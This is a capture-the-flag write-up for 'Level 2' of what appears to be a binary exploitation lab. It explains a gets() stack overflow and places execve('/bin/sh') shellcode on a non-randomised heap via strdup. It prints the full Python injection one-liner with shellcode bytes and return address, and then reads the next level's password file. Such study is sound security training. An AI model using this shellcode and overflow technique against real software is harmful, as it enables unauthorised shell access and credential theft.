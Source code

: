 # Level 2

```bash
su level2 # 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

## Steps

We see a `gets` getting called with a buffer of `0x4c` size. The input length is not checked with this function, and an overflow can easily occur.

To get the **size of the overflow**, we can:
- use a **pattern generator**
- calculate the *offset from the buffer*: `0x4c` (buffer len) + `4` (push EBP).

The binary doesn't have a shell code. So we have to provide it to him.
- We could call the **buffer** of `gets`, but there is a check later leading to an `exit` if the given address if in the stack (`0bx`).
- We could write the code inside a environment variable, but same story the checks makes an exit.
- We see in the program that the buffer is later copied inside a `strdup`. This function internally calls for `malloc` which store memory in an other section: the **heap**.

We can thank to this copy a **shellcode** inside the heap, and call its address since its not randomised.

```bash
$ ltrace ./level2
> blabla
...
strdup("blabla") = 0x0804a008
...

$ printf "%x" 134520840
0804A008
```

We can do the **injection**

```bash
$ python -c "print '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80' + 59 * 'X' + '\x08\x04\xa0\x08'[::-1]" > /tmp/2
$ cat /tmp/2 - | ./level2

$ cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

